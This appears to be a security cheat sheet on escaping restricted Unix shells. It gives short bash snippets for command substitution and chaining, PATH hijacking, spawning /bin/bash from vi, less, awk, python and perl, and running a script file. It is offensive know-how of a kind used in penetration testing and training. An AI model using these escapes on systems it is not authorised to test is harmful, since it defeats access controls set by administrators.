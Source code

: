# Escaping Restricted Shells

**Restricted shells** (rbash, rksh, rzsh) limit user capabilities to restrict command execution, script access, and system navigation. These are often implemented for security in shared environments.

### Common Techniques to Escape

### 1. **Command Substitution**

```bash
ls -l `whoami`
```

Executes allowed command via backticks or `$(command)`.

### 2. **Command Chaining**

```bash
ls; whoami; id
```

Executes multiple commands if separators like `;`, `&&`, or `||` are allowed.

### 3. **Command Injection**

Inject commands where user input is executed by the shell.

Example:

```bash
command `id`
```

### 4. **PATH Hijacking**

Override the PATH variable to run your own scripts in place of allowed commands.

```bash
mkdir /tmp/bin
echo "/bin/bash" > /tmp/bin/ls
chmod +x /tmp/bin/ls
export PATH=/tmp/bin:$PATH
ls
```

### 5. **Using Interactive Programs**

Escape via built-in programs like:

```bash
vi → :!bash
less → !bash
awk → awk 'BEGIN {system("/bin/bash")}'
```

### 6. **Scripting Languages**

Spawn a new unrestricted shell using:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
perl -e 'exec "/bin/bash";'
```

### 7. **Script Files**

Create executable script to escape:

```bash
echo "/bin/bash" > /tmp/escape.sh
chmod +x /tmp/escape.sh
/tmp/escape.sh
```

***
